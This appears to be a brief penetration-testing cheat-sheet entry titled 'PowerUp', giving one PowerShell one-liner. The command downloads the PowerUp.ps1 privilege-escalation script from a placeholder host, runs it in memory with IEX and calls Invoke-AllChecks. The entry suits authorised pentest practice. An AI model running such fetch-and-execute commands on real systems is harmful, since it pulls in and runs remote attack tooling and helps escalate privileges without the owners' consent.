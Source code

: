 # PowerUp

#plateform/windows #target/local #cat/RECON #tag/powershell
## oneliner
```powershell
(new-object system.net.webclient).downloadstring('http://<local_ip>:<port|80>/windows/windows_weaponize/ps/empire/privesc/PowerUp.ps1') | IEX; Invoke-AllChecks
```